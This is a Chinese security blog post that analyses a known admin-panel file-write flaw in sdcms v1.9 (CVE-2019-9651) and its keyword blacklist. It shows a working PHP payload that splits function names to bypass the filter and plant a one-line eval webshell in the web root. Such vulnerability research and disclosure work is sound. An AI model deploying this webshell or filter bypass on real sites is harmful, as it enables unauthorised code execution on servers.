


# sdcms v1.9 后台 getshell - 先知社区

sdcms v1.9 后台 getshell

- - -

\[TOC\]

# 1.前言

上集说到[sdcms v1.9 最新版前台 sql 注入](https://xz.aliyun.com/t/6992 "sdcms v1.9最新版前台sql注入")，通过注入运气好能进后台的话，然后就是 getshell 了。然后看了看后台 controller 目录里的文件，找到了一处可以 getshell 的地方，其实这个漏洞非常简单，就是一处写文件的功能

这个不是 0day 了，找到后发现网上已经有师傅申请了 cve，提交了 cnvd。

cve 编号：CVE-2019-9651  
cnvd 链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927](https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927)  
这个是针对 v1.7 版本的

cve 编号：CVE-2018-19520  
cnvd 链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942](https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942)  
这个是针对 v1.6 版本的

仔细搜一下这两个 cve 编号，漏洞其实就是一个漏洞，官方的修复就是一直增加关键字过滤，其实并没有什么用

# 2.漏洞分析

后台 controller 目录里有很多 php 文件都被加密了，看不懂源码，然后也有几个文件没用加密

我是直接全局搜索的 file\_put\_contents(，最终发现在\\app\\admin\\controller\\themecontroller.php 的 162 行左右：  
if(!APP\_DEMO) file\_put\_contents($root,$text);

他是在 edit 函数里，

```plain
public function edit()
    {
        if(IS_POST)
        {
            $dir=$this->decode(F('t0'));
            $dir=str_replace('..','',$dir);
            $root='theme/'.$dir;
            省略……
            $text=self::deal_text($_POST['t2']);
            $data=[[$text,'null','内容不能为空']];
            if(check_bad($text)>0)
            {
                $data=array_merge($data,[[(1>1),'other','请勿提交非法内容']]);
            }
            $v=new sdcms_verify($data);
            if($v->result())
            {
                if(strpos($root,'.php'))
                {
                    $text="<?php if(!defined('IN_SDCMS')) exit;?>".$text;
                }
                if(!APP_DEMO) file_put_contents($root,$text);
                $this->success('保存成功');
                $data="<?php\nif(!defined('IN_SDCMS')) exit;\nreturn ".var_export($name, true).";\n?>";
                if(!APP_DEMO) file_put_contents('theme/'.$theme.'/_note.php', $data);
            }
            else
            {
                $this->error($v->msg);
            }
            $this->add_log($this->msg);
        }
        else
        {
            省略……
        }
    }
```

$root 仅看代码的话感觉有点复杂，还调用了 decode 函数，其实不用管，他就是你编辑的文件名称，网站后台会提供好变量 t0

$data 就是写的内容，经过 check\_bad 处理了

check\_bad 在 app/function.php 的 413 行左右：

```plain
function check_bad($str)
{
    $num=preg_match_all("/(phpinfo|eval|file_put_contents|file_get_contents|passthru|exec|chroot|scandir|proc_open|delfolder|unlink|mkdir|fopen|fread|fwrite|fputs|tmpfile|flock|chmod|delete|assert|_post|_get|_request|_file|create_function|array_walk|preg_replace|cookie)/Ui",$str,$match);
    return $num?$num:0;
}
```

就是你写的内容不能有这么多字符串。其实这么多过滤并没有什么用，我看 v1.7 那个 cve 描述是说什么过滤不严，system 可以用，其实完全没必要，把字符串拆开即可，让他生成个一句话木马

# 3.漏洞利用

先访问 127.0.0.1/sdcms1.9/?m=admin&c=theme&a=index  
点这个管理模板  
就会看到一堆目录及文件，随便点一个 php 文件进去  
我这里点的是 top.php，然后输入以下代码：

```plain
<?php
$a = 'file_p'.'ut_contents';
$data = '<?php ev'.'al($_PO'.'ST[1])?>';
$a("chonger.php",$data);
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191225184018-f17e57b4-2702-1.png)  
看吧，这不就没出现任何关键字……然后点下面的保存即可

然后访问一下主页，127.0.0.1/sdcms1.9/，他就会 require 到刚刚修改的文件 top.php，一句话木马 chonger.php 就生成在网站根目录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191225184145-259f5c46-2703-1.png)

# 4.下集预告

目前正在审计 UsualToolCMS，前台目前感觉过滤很严，不太好整……

后台倒是找到 getshell 了，用处不大，本来就是小众 cms

加把劲再看看尽力把坑给填上，说有下集预告那就肯定有下集

漏洞肯定会是前台的，只有后台 getshell 没有前台的注入我都不会发的，不好玩

UsualToolCMS 万一找不着的话，那就换个 cms 搞

等着吧……
